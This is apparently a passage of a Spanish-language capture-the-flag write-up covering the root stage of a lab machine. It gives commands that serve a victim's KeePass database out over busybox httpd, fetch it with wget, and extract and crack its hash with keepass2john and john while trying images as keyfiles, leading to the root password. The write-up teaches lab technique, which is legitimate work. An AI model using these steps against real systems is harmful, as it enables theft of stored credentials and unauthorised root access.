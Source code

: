 ### Rootear la maquina {-}

```bash
ls /home/user
```

Vemos un fichero `MyPassword.kdbx` y una serie de imagenes. Lo descargamos en nuestra maquina de atacante.

- en la maquina victima

    ```bash
    which busybox
    busybox httpd -f -p 8000
    ```

- en la maquina de atacante descargamos con `wget` todas las imagenes y el fichero `MyPasswords.kdbx`

Intentamos abrir el ficher `MyPasswords.kdbx` con la utilidad **keepassxc**

```bash
keepassxc MyPasswords.kdbx
```

Vemos que nos pregunta por una contraseña pero vemos que hay un fichero clave que seria una de las imagenes.
Podemos tratar de recuperar el hash del fichero con `keepass2john` pero tenemos que tener en cuenta que si hay un fichero
que esta utilizado como seguridad, tenemos que añadir el parametro -k.

```bash
keepass2john MyPasswords.kdbx -k IMG_0545.JPG
```

Como no sabemos exactamente que imagen es la buena, utilizaremos un oneLiner

```bash
for IMG in $(echo "IMG_0545.JPG IMG_0546.JPG IMG_0547.JPG IMG_0548.JPG IMG_0552.JPG IMG_0553.JPG "); do keepass2john -k $IMG MyPasswords.kdbx | sed "s/Mypasswords/$IMG/"; done > hashes
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

Encontramos la contraseña con la imagen 0547. Si abrimos el keepassxc dando la imagen como keyfile y con la contraseña podemos entrar y vemos un directorio
llamado Root Password

ya podemos utilizar el comando `su root` y leer la flag.



